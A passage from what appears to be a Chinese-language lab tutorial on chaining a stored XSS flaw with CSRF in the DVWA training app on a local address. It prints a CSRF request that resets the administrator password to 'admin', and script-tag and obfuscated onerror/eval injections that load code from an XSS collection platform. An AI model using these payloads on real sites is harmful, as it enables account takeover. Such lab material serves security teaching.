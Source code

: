 ```
```

本地打开csrf.html后dvwacn的管理员密码就被修改为admin了

##结合xss.me自动执行csrf

相信细心的人已经发现上面是一个html文件，需要诱使管理员打开，而且他还有弹窗。太被动了，想用ajax来发送吧，又需要跨域。怎么办呢？这里我们可以结合xss来完成攻击。

xss的精髓就是**xss就是让对方执行你的JS代码**


聪明的人已经想到了，那就是把csrf的ajax请求放到xss里，以达到攻击的效果，具体怎么做到呢，看完这一节，你就会了。

首先你要挖到一个xss漏洞(反射型、存储型都行，当然存储型更好)

存储型xss

http://192.168.56.80/dvwacn/vulnerabilities/xss_s/

xss.me平台

http://192.168.56.80/xssme/index.php?do=project&act=view&id=2

```
当前位置： 首页 > 项目代码

项目名称: csrf

项目代码：
var xmlhttp; if(window.XMLHttpRequest){ xmlhttp=new XMLHttpRequest(); }else{ xmlhttp=new ActiveXObject("Microsoft.XMLHTTP"); } xmlhttp.open("GET","http://192.168.56.80/dvwacn/vulnerabilities/csrf/?password_new=admin&password_conf=admin&Change=更改",true); xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded"); xmlhttp.send();
如何使用：
将如下代码植入怀疑出现xss的地方（注意'的转义），即可在 项目内容 观看XSS效果。

</textarea>'"><script src=http://192.168.56.80/xssme/oosEK5?1469157525></script>
或者

</textarea>'"><img src=# id=xssyou style=display:none onerror=eval(unescape(/var%20b%3Ddocument.createElement%28%22script%22%29%3Bb.src%3D%22http%3A%2F%2F192.168.56.80%2Fxssme%2FoosEK5%3F%22%2BMath.random%28%29%3B%28document.getElementsByTagName%28%22HEAD%22%29%5B0%5D%7C%7Cdocument.body%29.appendChild%28b%29%3B/.source));//>
再或者以你任何想要的方式插入

http://192.168.56.80/xssme/oosEK5?1469157525
完成 

```

用户输入

```
用户名：admin
信息：<script src=http://192.168.56.80/xssme/oosEK5?1469157525></script>
```

只要用户点击`A5-跨站请求伪造(CSRF)`，密码就会被改成admin。
